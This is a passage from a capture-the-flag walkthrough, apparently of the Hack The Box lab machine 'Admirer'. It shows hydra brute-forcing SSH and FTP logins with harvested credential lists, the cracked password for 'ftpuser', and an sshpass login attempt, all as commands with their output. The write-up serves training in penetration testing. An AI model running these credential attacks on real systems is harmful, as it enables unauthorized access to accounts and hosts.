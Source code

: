 	admin
	w0rdpr3ss01!
	```


## Bruteforce w/ Creds found
1. Bruteforce SSH w/ `hydra`
	```
	┌──(root💀kali)-[~/htb/admirer/10.10.10.187/loot]
	└─# hydra -L creds.txt -P creds.txt ssh://admirer.htb
	Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
	
	Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-27 18:14:00
	[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
	[DATA] max 16 tasks per 1 server, overall 16 tasks, 36 login tries (l:6/p:6), ~3 tries per task
	[DATA] attacking ssh://admirer.htb:22/
	[22][ssh] host: admirer.htb   login: ftpuser   password: %n?4Wz}R$tTF7
	```
	- `ftpuser:%n?4Wz}R$tTF7`
2. Bruteforce FTP w/ `hydra`
	```
	┌──(root💀kali)-[~/htb/admirer/10.10.10.187/loot]
	└─# hydra -L creds.txt -P creds.txt ftp://admirer.htb
	Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
	
	Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-28 01:08:55
	[DATA] max 16 tasks per 1 server, overall 16 tasks, 36 login tries (l:6/p:6), ~3 tries per task
	[DATA] attacking ftp://admirer.htb:21/
	[21][ftp] host: admirer.htb   login: ftpuser   password: %n?4Wz}R$tTF7
	```
	- `ftpuser:%n?4Wz}R$tTF7`

## TCP/22 (SSH) -  Failed
1. Failed to SSH, connection closes instantly
	```
	┌──(root💀kali)-[~/htb/admirer/10.10.10.187/loot/10.10.10.187/html]
	└─# sshpass -p '%n?4Wz}R$tTF7' ssh ftpuser@admirer.htb
	Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux
	
	The programs included with the Devuan GNU/Linux system are free software;
	the exact distribution terms for each program are described in the
	individual files in /usr/share/doc/*/copyright.
	
	Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
	permitted by applicable law.
	Last login: Tue Sep 27 19:05:38 2022 from 10.10.14.14
	Connection to admirer.htb closed.
	```
